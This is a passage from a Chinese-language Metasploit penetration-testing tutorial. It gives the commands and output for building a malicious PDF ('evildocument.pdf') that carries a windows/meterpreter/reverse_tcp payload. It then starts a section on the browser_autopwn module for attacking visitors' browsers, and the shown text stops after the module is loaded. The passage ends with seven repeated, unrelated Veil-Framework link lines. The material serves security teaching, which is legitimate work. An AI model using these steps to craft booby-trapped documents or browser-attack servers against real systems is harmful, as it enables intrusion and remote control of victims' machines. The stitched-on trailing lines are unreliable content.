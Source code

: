 以上信息显示了 adobe_pdf_embedded_exe 模块所有可用的选项。此时配置必须的选项，然后进行渗透攻击。

（5）设置用户想要生成的 PDF 文件名。执行命令如下所示：

```
msf exploit(adobe_pdf_embedded_exe) > set FILENAME evildocument.pdf
FILENAME => evildocument.pdf 
```

（6）设置 INFILENAME 选项。为了利用，使用该选项指定用户访问的 PDF 文件位置。执行命令如下所示：

```
msf exploit(adobe_pdf_embedded_exe) > set INFILENAME /root/Desktop/ willie.pdf
INFILENAME => /root/Desktop/willie.pdf 
```

（7）运行 exploit。执行命令如下所示：

```
msf exploit(adobe_pdf_embedded_exe) > exploit
[*] Reading in '/root/Desktop/willie.pdf'…
[*] Parsing '/root/Desktop/willie.pdf'…
[*] Using 'windows/meterpreter/reverse_tcp' as payload…
[*] Parsing Successful. Creating 'evildocument.pdf' file…
[+] evildocument.pdf stored at /root/.msf4/local/evildocument.pdf 
```

输出的信息显示了 evildocument.pdf 文件已经生成，而且被保存到/root/.msf4/local 目录中。

### 6.4.7 使用 browser_autopwn 模块渗透攻击浏览器

Browser Autopwn 是由 Metasploit 提供的一个辅助模块。当访问一个 Web 页面时，它允许用户自动地攻击一个入侵主机。Browser Autopwn 在攻击之前，会先进行指纹信息操作，这意味着它不会攻击 Mozilla Firefox 浏览器，而只会攻击系统自带的 Internet Explorer 7 浏览器。本小节将介绍 browser_autopwn 模块的使用。

加载 browser_autopwn 模块的具体操作步骤如下所示。

（1）启动 MSFCONSOLE。执行命令如下所示：

```
root@kali:~# msfconsole 
```

（2）查询 autopwn 模块。

![187-01](img/00300.jpg)

输出的信息显示了有一个 autopwn 模块。

（3）使用 browser_autopwn 模块。执行命令如下所示：

```
msf > use auxiliary/server/browser_autopwn 
```

执行以上命令后，没有任何信息输出。


 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework